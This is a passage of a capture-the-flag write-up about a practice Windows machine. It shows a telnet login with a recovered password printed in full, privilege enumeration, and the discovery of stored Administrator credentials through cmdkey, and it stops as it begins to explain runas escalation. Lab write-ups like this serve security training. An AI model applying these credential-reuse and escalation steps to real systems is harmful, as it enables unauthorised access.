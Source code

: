 We recall that telnet port request a password to connect. We can user our new credentials (**security**:**4Cc3ssC0ntr0ller)** to connect.

```bash
┌──(kali㉿kali)-[~/machines/access]
└─$ telnet --user=security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

We have a foothold on the machine.

# Privilege escalation

We will perform some basic enumeration. First we check our privileges.

```bash
C:\Users\security>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working     Disabled
```

We now start with our basic enumeration checking files in directories, open ports, users, groups and so on. Until we check which stored credentials we have on the Credential Manager.

```bash
C:\>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

This means that we could run any command as ACCESS\Administrator. In order to leverage this we will use **runas** built-in tool that we have on windows, which is a powerless version of sudo command in linux. We can use this command two ways:
